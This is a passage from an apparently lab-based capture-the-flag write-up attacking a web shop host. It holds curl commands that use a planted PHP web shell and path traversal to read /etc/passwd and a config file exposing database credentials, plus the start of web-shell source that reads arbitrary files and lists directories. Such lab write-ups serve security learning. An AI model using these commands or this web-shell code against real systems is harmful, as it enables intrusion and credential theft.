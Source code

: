 

This user can't read in `/home/sysadmin`.

I can also get a file, like `/etc/passwd`:



    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
    mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
    red:x:1001:1001::/home/red:/bin/false



#### Database

It's really interesting to note that in the `/etc/passwd` file, the user
mysql has a shell, `/bin/bash`. That's unusual, as `mysql` typically
sets the mysql user's shell to `/bin/false`. Given the hacked theme of
the box, it's worth looking at this further.

Looking at mysql's home directory doesn't return anything, which
indicates a permissions issue. I can try to check out the database,
especially to see if it can execute. I'll pull the config file at the
same path I noted in the backup. The DB password is still "changethis":



    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www.md/shop/includes/config.inc.php"
    <?php
    ...[snip]...
    // Database
      define('DB_TYPE', 'mysql');
      define('DB_SERVER', 'localhost');
      define('DB_USERNAME', 'root');
      define('DB_PASSWORD', 'changethis');
      define('DB_DATABASE', 'ecom');
      define('DB_TABLE_PREFIX', 'lc_');
      define('DB_CONNECTION_CHARSET', 'utf8');
      define('DB_PERSISTENT_CONNECTIONS', 'false');  
    ...[snip]...



I'll add some code to my PHP that will run DB queries:



    sploit = """<?php
    if (isset($_REQUEST['file'])) { 
        echo file_get_contents($_REQUEST['file']);
    } 

    if (isset($_REQUEST['dir'])) {
        print_r(scandir($_REQUEST['dir']));
    }
